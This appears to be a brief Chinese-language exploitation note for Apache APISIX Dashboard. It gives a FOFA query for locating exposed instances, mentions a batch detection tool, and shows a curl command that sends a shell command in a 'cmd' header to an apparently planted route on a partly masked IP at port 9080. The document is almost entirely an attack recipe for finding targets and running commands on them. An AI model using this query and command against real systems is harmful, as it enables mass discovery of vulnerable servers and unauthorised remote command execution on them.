 
### FOFA
title="Apache APISIX Dashboard"

### 检测
工具支持单目标或批量检测，具体用法见工具

### 利用
注意：利用时的端口号不再是9000，而是9080  
curl http://114.67.xx.xx:9080/4ra7NZ -H "cmd: ls -alh"
